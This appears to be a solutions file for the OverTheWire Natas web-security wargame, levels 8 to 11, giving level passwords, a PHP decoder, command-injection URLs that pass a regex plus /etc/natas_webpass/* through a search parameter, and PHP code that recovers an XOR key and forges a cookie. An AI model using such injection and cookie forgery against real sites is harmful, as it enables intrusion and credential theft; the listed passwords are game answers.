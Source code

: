 ### natas8: DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe

Reverse the secret encoding function.

```
function decodeSecret($s) {
    return base64_decode(strrev(hex2bin($s)));
}
```

### natas9: W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl

You can do pretty much whatever you want with that grep command to capture output.

```
http://natas9.natas.labs.overthewire.org/?needle=.+%2Fetc%2Fnatas_webpass%2F*&submit=Search
```

### natas10: nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu

Same thing.  The filtering didn't affect the command I used.  Backticks would be fine too.

```
http://natas10.natas.labs.overthewire.org/?needle=.+%2Fetc%2Fnatas_webpass%2F*&submit=Search
```

### natas11: U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK

```
$m = "ClVLIh4ASCsCBE8lAxMacFMZV2hdVVotEhhUJQNVAmhSEV4sFxFeaAw\x3D";
echo "OriginalCookie: " . $m . "\n";
$match = base64_decode($m);

$encoded_struct = json_encode(array( "showpassword"=>"no", "bgcolor"=>"#ffffff" ));
echo "ENCODED " . $encoded_struct . "\n";
echo "MATCH " . $match . "\n";

$key = xor_encrypt($encoded_struct, $match);
$key = 'qw8J';
echo "@KEY@: " . $key . "\n";

$reencoded = xor_encrypt($match, $key);
echo "FOUND IN OLD: " . $reencoded . "\n";


// Let's encrypt again

$new_struct = json_encode(array( "showpassword"=>"yes", "bgcolor"=>"#ffffff" ));

$newtoken = xor_encrypt2($new_struct);
echo "@NEW@: " . base64_encode($newtoken) . "\n";
echo "what is here? " . xor_encrypt2($newtoken) . "\n";

$struct = json_decode(xor_encrypt2($newtoken), true);
var_dump($struct);
```
